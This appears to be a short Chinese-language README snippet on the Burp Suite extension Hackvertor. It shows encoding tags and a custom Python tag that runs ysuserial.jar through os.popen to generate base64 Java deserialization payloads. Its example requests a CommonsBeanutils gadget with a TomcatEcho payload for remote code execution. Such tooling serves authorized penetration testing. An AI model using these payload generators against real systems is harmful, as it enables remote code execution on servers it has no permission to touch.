 

## hackvertor


https://github.com/hackvertor/hackvertor


```
实现标签化对数据进行 编解码
 例如： 
 base64加密: <@base64>123123<@/base64>
 gzip压缩： <@gzip_compress>123123<@/gzip_compress>
```


### ysuserial 快速调用生成java序列化数据

1、首先启用 hackvertor的 代码执行功能 `allow code execution tags`

![code exec img](assets/image.png)

2、新建一个自定义tags `yso` ，选择 python脚本

```
import os

output = input

p_lists = str(output).split("_")

if len(p_lists) == 3:
    yso_name = p_lists[0]
    gadget_name = p_lists[1]
    payload_name = p_lists[2]

    command = 'java -jar /Applications/"Burp Suite Professional.app"/Contents/Resources/app/ysuserial.jar -g ' + gadget_name + ' -p "'+ payload_name +'" | base64'
    result = os.popen(command).read()

    output = str(result)

    if output.startswith("rO0AB") or output.startswith("PGxp"):
        output = str(result)
    else:
        output = "errclass"
else:
    output = "errclass"

```

> 自行替换脚本中的 ysuserial.jar 位置

使用 如下 标签即可生成自定义java序列化数据

```
<@_yso('5744dcd86f614c6341b69e69c8441c7f')>ysu_CommonsBeanutils1183NOCC_EX-TomcatEcho<@/_yso>
```

![ysu-img](assets/image-1.png)

